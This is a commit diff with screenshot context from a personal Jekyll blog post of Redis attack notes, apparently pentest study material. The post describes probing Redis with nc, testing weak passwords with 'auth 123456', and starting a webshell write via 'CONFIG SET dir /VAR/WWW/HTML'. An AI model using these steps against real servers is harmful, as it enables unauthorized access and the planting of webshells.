

Before and after one commit to kerno-yep/kerno-yep.github.io, a Jekyll site: the page built from _posts/2022-08-06-redis梳理.md, in a window 1280 px wide and 900 px high, scrolled down 499 px. Shown: the whole window, without its empty margins (233-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
modified:   "_posts/2022-08-06-redis\346\242\263\347\220\206.md" 	modified:   _posts/2022-08-10-docker.md

````diff
--- a/_posts/2022-08-06-redis梳理.md
+++ b/_posts/2022-08-06-redis梳理.md
@@ -11,14 +11,15 @@
 
 redis命令了解 http://redisdoc.com/
 
+#### 弱密码测试
 
-
-弱密码测试
 `nc ip 6379` 这时就是连接成功
 输入 `INFO` 或 `PING` 如果成功，则未设置密码，如果显示 `-NOAUTH   Authentication required`，则设置了密码
 输入 `auth 123456`，即进行密码认证，测几个弱密码就行
 
-**1.redis写入shell**（最常用的getshell套路，但因为权限问题，失败概率较高）
+#### redis写入shell
+
+最常用的getshell套路，但因为权限问题，失败概率较高
 
 ```shell
 >CONFIG SET dir /VAR/WWW/HTML
````
Also changed, not shown: _posts/2022-08-10-docker.md (+1 -1 lines).
